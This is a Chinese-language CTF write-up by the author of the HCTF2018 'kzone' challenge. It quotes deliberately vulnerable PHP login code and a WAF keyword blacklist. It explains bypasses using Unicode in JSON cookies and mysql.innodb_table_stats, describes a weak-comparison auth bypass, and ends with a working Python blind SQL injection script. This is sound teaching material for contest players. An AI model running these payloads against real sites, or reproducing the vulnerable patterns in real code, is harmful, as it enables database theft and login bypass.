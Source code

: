 # HCTF2018_kzone

## 题目情况：

| Name | Description | Score|Solved|
| ------ | ------ | ---- | ---- |
| kzone | A script kid's phishing website | 361.29 |  34  |

## 源码：

所有源码都在上面了

### 如何启动：

```shell
git clone https://github.com/Li4n0/HCTF2018_kzone.git
cd HCTF2018_kzone/
sh start_up.sh 
```

默认端口为10000

## 出题思路以及Write Up：

大二狗第一次出题，出的不够严谨，导致了比较严重的非预期，不过看到非预期的姿势也非常有趣，赛后调查数据又看到很多师傅表示很喜欢这道题目，我就觉得这道题目还是有意义的。

那么先来说说我本身的出题思路吧！

首先，题目本身是基于我今年暑假遇到的一个QQ空间钓鱼平台的源码改造而来的，这个钓鱼平台本身的问题很多，这次题目就是利用了其中`memeber.php` 中存在的 cookie 注入点 。

来看看平台本身的注入点：

```php
$admin_user=base64_decode($_COOKIE['admin_user']);
$udata = $DB->get_row("SELECT * FROM fish_admin WHERE username='$admin_user' limit 1");
if($udata['username']==''){
	setcookie("islogin", "", time() - 604800);
	setcookie("admin_user", "", time() - 604800);
	setcookie("admin_pass", "", time() - 604800);
}
$admin_pass=sha1($udata['password'].LOGIN_KEY);
if($admin_pass==$_COOKIE["admin_pass"]){
	$islogin=1;
}else{
	setcookie("islogin", "", time() - 604800);
	setcookie("admin_user", "", time() - 604800);
	setcookie("admin_pass", "", time() - 604800);
}
```

而在原本的代码基础上，我将`admin_user` 和 `admin_pass` 的引入方式改为`json_decode` (后面会解释原因)，并且增加了一个全局 WAF，对 `$_GET` `$_POST` `$_COOKIE` 分别进行了过滤

过滤的内容如下：

`$blacklist = '/union|ascii|mid|left|greatest|least|substr|sleep|or|and|benchmark|like|regexp|if|=|-|<|>|\#|\s/i';` 

那么如何绕过这个 WAF 呢？大多数师傅都是利用了 `json` 反序列化时，会将`Unicode` 解码的特性，实现了完全绕过 WAF ，这里其实是我过滤的不够完善了。大家可以想一下，如果`\` 也被过滤掉，还有没有其他姿势呢？

其实这个 WAF 造成最大的障碍就是过滤了 `or` 导致没有办法通过 `information_schema` 库来查询表名，然而其实`MySQL`  5.7 之后的版本，在其自带的 `mysql` 库中，新增了 `innodb_table_stats ` 和 `innodb_index_stats` 这两张日志表。如果数据表的引擎是`innodb` ，则会在这两张表中记录表、键的信息 。

而从 `install.sql` 中可以看出，网站使用的正是`innodb` 引擎

```sql
CREATE TABLE IF NOT EXISTS `fish_admin` (
  `id` tinyint(3) unsigned NOT NULL AUTO_INCREMENT,
  `username` varchar(20) NOT NULL,
  `password` char(32) NOT NULL,
  `name` varchar(255) DEFAULT '',
  `qq` varchar(255) DEFAULT '',
  `per` int(11) NOT NULL DEFAULT '3',
  PRIMARY KEY (`id`),
  UNIQUE KEY `username` (`username`)
) ENGINE=innodb  DEFAULT CHARSET=utf8 AUTO_INCREMENT=2 ;
```

因此我们使用 `mysql.innodb_table_stats` 来代替 `information_schema.tables`  即可获取表名。于是现在我们需要思考如何判断注入结果，`sleep` 和 `benchmark` 都已经被过滤了，只能考虑布尔盲注(不考虑笛卡尔积...)。

那么现在是时候来解释一下为什么我要把 `base64_decode ` 换成 `json_decode` 了，这个思路其实是来自 `微擎` 之前一个版本的漏洞：

```php
$session = json_decode(authcode($_GPC['__session']), true);
if (is_array($session)) {
	$user = user_single(array('uid'=>$session['uid']));
	if (is_array($user) && $session['hash'] == md5($user['password'] . $user['salt'])) {
		$_W['uid'] = $user['uid'];
		$_W['username'] = $user['username'];
		$user['currentvisit'] = $user['lastvisit'];
		$user['currentip'] = $user['lastip'];
		$user['lastvisit'] = $session['lastvisit'];
		$user['lastip'] = $session['lastip'];
		$_W['user'] = $user;
		$_W['isfounder'] = user_is_founder($_W['uid']);
		unset($founders);
	} else {
		isetcookie('__session', false, -100);
	}
	unset($user);
}
unset($session);

```

简单来说，就是`微擎` 将用于验证用户身份的`hash` 值，使用了 `json_encode` 进行序列化并储存在 cookie 里面。而在验证的时候，再用`json_decode` 反序列化后取出。但是需要注意的是，在将`hash` 值与数据库中存储的用户密码的`md5` 值进行比较的时候，使用的是弱比较，这就导致我们可以通过构造 `json`字符串使`hash`值为数字，利用弱类型，绕过用户身份验证，实现任意用户登录。

我在这里套用了这个漏洞：

```php
$login_data = json_decode($_COOKIE['login_data'], true);
$admin_user = $login_data['admin_user'];
$udata = $DB->get_row("SELECT * FROM fish_admin WHERE username='$admin_user' limit 1");
if ($udata['username'] == '') {
	setcookie("islogin", "", time() - 604800);
	setcookie("login_data", "", time() - 604800);
}
$admin_pass = sha1($udata['password'] . LOGIN_KEY);
if ($admin_pass == $login_data['admin_pass']) {
     $islogin = 1;
} else {
   	setcookie("islogin", "", time() - 604800);
    setcookie("login_data", "", time() - 604800);
}
```

本来的思路是让大家进行爆破，登录`admin`账户,然后通过 `$admin_user` 构造条件语句，这样就可以通过登录状态来进行布尔盲注了。

然而没想到的两点是：

1. 这恰恰引入了利用 `json` 反序列化 Unicode 绕过 WAF 的漏洞

2. 利用平台本身的逻辑问题，就可以实现布尔注入，具体位置就在上面的代码中：

   * 当查询返回的用户名为空且密码错误时，进行四次`setcookie` 操作
   * 当查询返回的用户名为不为空时，进行两次`setcookie` 操作

   利用这个差异，就已经可以实现布尔盲注了。

所以，这道题目对于我这个出题人来说，其实算是一个比较失败的产物，好在题目本身还能够让一些选手收获知识/乐趣，而且还是有一些队伍是按照我的预期思路做出的这道题目的。而经历48小时的蹂躏后，题目共有 33 只队伍提交有效答案，最终分值为 361分， 也符合我的预期。

未来的一年，我会努力学习更多姿势、积累出题经验，争取在明年的 HCTF 上，给大家带来更优质的题目。

最后，附上我的预期解`exp `:

```python
"""
	Author:Li4n0
	Time:2018.11.7
"""

import requests

url = 'http://kzone.2018.hctf.io/admin/'
key = ''
strings = [chr(i) for i in range(32, 127)]

while True:
    for i in reversed(strings):
        if 'or' in key + i:
            continue
       #payload = "admin' and (select group_concat(table_name) from mysql.innodb_table_stats) between '%s' and '%s' and '1" % (key + i, chr(126))
        payload = "admin' and (select * from F1444g) between '%s' and '%s' and '1" % (key + i, chr(126))
       
        headers = {
            'cookie': 'islogin=1;login_data={"admin_user":"%s","admin_pass":65}' %
                      payload.replace(' ', '/**/').replace("\"", '\\"'),
        }
        #print(headers)
        r = requests.get(url, headers=headers)
        #print(r.text)
        if 'Management Index' in r.text:
            key += i
            break
        else:
            print(i)
    print(key)

```













